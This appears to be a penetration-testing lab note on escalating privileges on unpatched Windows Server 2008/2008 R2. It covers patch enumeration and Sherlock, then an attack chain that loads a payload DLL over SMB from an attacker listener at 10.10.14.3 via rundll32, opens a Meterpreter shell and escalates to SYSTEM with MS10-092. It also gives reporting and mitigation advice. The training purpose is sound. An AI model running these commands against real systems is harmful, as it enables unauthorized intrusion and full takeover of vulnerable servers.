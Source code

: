 # Windows Server 2008 / 2008 R2

Windows Server 2008 and 2008 R2 reached **End-of-Life on January 14, 2020**. Despite this, they still exist across many enterprise environments, particularly in medical, academic, and local government networks. These legacy systems often serve mission-critical roles, and due to lack of updates, are vulnerable to multiple local and remote privilege escalation flaws.
## Feature Comparison with Newer Versions

|Feature|Server 2008 R2|Server 2012 R2|Server 2016|Server 2019|
|---|---|---|---|---|
|Enhanced Windows Defender ATP||||✅|
|Just Enough Administration|Partial|Partial|✅|✅|
|Credential Guard|||✅|✅|
|Remote Credential Guard|||✅|✅|
|Device Guard (Code Integrity)|||✅|✅|
|AppLocker|Partial|✅|✅|✅|
|Windows Defender|Partial|Partial|✅|✅|
|Control Flow Guard|||✅|✅|
## Why This Matters

Many organizations retain these systems due to:

- Legacy vendor lock-in (e.g., MRI, billing software)    
- No budget for upgrades
- Forgotten or shadow IT
- Mission-critical operations

Your approach during an assessment must consider the system’s operational role. Blindly exploiting fragile systems may result in downtime. Always **consult the client before exploitation**.
## Enumeration Techniques
### Using WMI to Check Installed Patches

```cmd
wmic qfe
```

Example output:

```
HotFixID      InstalledOn
KB2533552     3/31/2021
```

Use Google or the Microsoft KB to verify patch relevance. A lack of recent KBs indicates outdated, likely vulnerable systems.
## Using Sherlock

[https://github.com/rasta-mouse/Sherlock](https://github.com/rasta-mouse/Sherlock)

```powershell
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\Sherlock.ps1
Find-AllVulns
```

Sherlock will attempt to identify privilege escalation vulnerabilities based on kernel version.
## Sample Vulnerabilities Found

```text
MS10-092 - Task Scheduler .XML -> Appears Vulnerable
MS15-051 - ClientCopyImage Win32k -> Appears Vulnerable
MS16-032 - Secondary Logon Handle -> Appears Vulnerable
```

Use exploit-db links or Metasploit modules for exploitation.
## Gaining Access – SMB Delivery + MS10-092
### 1. Create Payload Delivery

```bash
msf6 > use exploit/windows/smb/smb_delivery
set LHOST 10.10.14.3
set LPORT 4444
set target 0
run
```
### 2. Execute on Target

```cmd
rundll32.exe \\10.10.14.3\share\payload.dll,0
```

This triggers a **Meterpreter shell**.
## 3. Local Privilege Escalation (MS10-092)

```bash
use exploit/windows/local/ms10_092_schelevator
set SESSION 1
set LHOST 10.10.14.3
set LPORT 4443
run
```

If using a 32-bit shell, **migrate to a 64-bit process**:

```bash
meterpreter > ps
meterpreter > migrate <x64 PID>
```

Upon successful exploitation, you should see:

```text
Server username: NT AUTHORITY\SYSTEM
OS              : Windows 2008 R2
```
## Reporting Notes

When assessing such systems:

- Clearly explain why they’re vulnerable.    
- Provide specific upgrade recommendations.
- Where upgrades are not possible, **suggest mitigation**:
    - Network segmentation
    - Logging and monitoring    
    - Application allowlisting    
    - EDR tooling (if supported)
## Practice Scenario

You encounter a Server 2008 R2 host with no recent patches. Use **any available vulnerability (e.g., MS10-092)** to escalate to SYSTEM. Repeat the process with multiple techniques if possible, and capture the `flag.txt` from `C:\Users\Administrator\Desktop`.
# Tags
> #Windows-Post-Exploitation #Windows-Privesc #LegacyOS